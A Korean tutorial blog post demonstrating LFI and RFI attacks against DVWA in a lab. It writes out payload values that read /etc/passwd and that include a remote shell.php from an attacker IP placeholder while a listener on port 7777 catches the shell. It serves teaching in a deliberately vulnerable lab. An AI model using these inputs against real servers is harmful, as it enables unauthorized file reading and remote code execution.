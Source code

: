 ```yaml
---
layout: post
title: '[해킹 기초] 9. LFI와 RFI 취약점'
date: '2022-12-30 11:59:10 +0900'
description: '파일업로드 취약점'
categories: [HACKING,HACKING - Part.2]
image: /assets/img/1/hacking.png
tags: [hacking]
toc: true
---
```

<a text-size="1px" target="_blank" href="https://icons8.com/icon/5503/hacking">Hacking</a> icon by <a target="_blank" href="https://icons8.com">Icons8</a>

### <b>■ LFI(Local File Inclusion)이란?</b>
웹 브라우저를 통해 서버에 파일을 포함시키는 과정에서 발생하는 취약점이다.

### <b>■ ■ LFI(Local File Inclusion) 취약점 공격 실습</b>
- [실습 환경]
    - Virtual Box(Kali Linux)
    - Virtual Box(DVWA) -공격 대상

<img src="/assets/img/hacking/part2-2/2.png" alt="표사진"><br>
DVWA 사이트에 들어가서 security를 low로 설정해준뒤 왼쪽 메뉴에서 File Inclusion으로 들어간다.

<img src="/assets/img/hacking/part2-3/2.png" alt="표사진"><br>
File Inclusion으로 들어가서 위에 URL을 보면 page 파라미터를 통해 include.php를 화면에 불러오는 것을 확인할 수 있다.

<img src="/assets/img/hacking/part2-3/3.png" alt="표사진"><br>
page 파라미터를 /etc/passwd로 넣으면 위와 같이 계정 정보가 출력되는 것을 확인할 수 있다. 즉 위에 네모 부분에서 File Includ가 일어나는 것을 확인할 수 있다.
여기서 LFI 취약점을 이용하면 위와 같이 개인정보 같은 중요한 정보들을 출력할 수 있다.

<hr>

### <b>■ RFI(Remote File Inclusion)이란?</b>
공격자가 악성 스크립트를 대상 웹 서버에 전달하여 해당 페이지를 통하여 전달한 악성코드가 실행 되도록 하는 것이다.

### <b>■ ■ RFI(Remote File Inclusion) 취약점 공격 실습</b>
- [실습 환경]
    - Virtual Box(Kali Linux)
    - Virtual Box(DVWA) -공격 대상

<img src="/assets/img/hacking/part2-3/4.png" alt="표사진"><br>
cd 명령어를 이용해 /var/www/html 경로로 이동한뒤 leafpad를 이용해 test.html파일을 만들고 안에 위와 같이 적는다.

<img src="/assets/img/hacking/part2-3/5.png" alt="표사진"><br>
test.html페이지를 만들었으면 웹 서비스 apache2를 실행시킨다.

<img src="/assets/img/hacking/part2-2/2.png" alt="표사진"><br>
DVWA 사이트에 들어가서 security를 low로 설정해준뒤 왼쪽 메뉴에서 File Inclusion으로 들어간다.

<img src="/assets/img/hacking/part2-3/7.png" alt="표사진"><br>
File Inclusion으로 들어가서 page 파라미터에 http://[위에서 apache2 실행한 공격자 IP 주소]/test.html을 입력하면 위 그림과 같이
우리가 만든 test.html에 내용 Hello HTML~이 표시된다. 이 부분을 이용해서 공격을 할 것이다. 우리가 <a href="https://jjuseok.github.io/posts/hacking_part2-2/">파일업로드 취약점 게시글</a>에서 이용한 shell.php 파일을 이용할 것이다.

<img src="/assets/img/hacking/part2-3/8.png" alt="표사진"><br>
shell.php를 이용하기 위해서 home 경로에서 shell.php를 현재 경로에 복사해온다.

<img src="/assets/img/hacking/part2-3/10.png" alt="표사진"><br>
복사를 하고나서 파일업로드 취약점 공격했을때와 동일하게 공격자 PC에서 7777포트를 열어준다.

<img src="/assets/img/hacking/part2-3/9.png" alt="표사진"><br>
포트를 열었으면 위 경로에 아까 실습했던 것처럼 page 파라미터에 http://[위에서 apache2 실행한 공격자 IP 주소]/shell.php를 입력해 보자.

<img src="/assets/img/hacking/part2-3/11.png" alt="표사진"><br>
입력하고 포트 열었던 cmd 창으로 이동하면 위와 같이 접속이 되고 사용자 웹 쉘을 획득한 것을 볼 수 있다.
위와 같이 웹 쉘을 획득한 상태에서 피해자 컴퓨터에 명령어 사용이 가능한다. 여러 명령어를 사용해 피해자 컴퓨터를 조종할 수 있으며 여러 중요한 파일들도 볼 수 있다.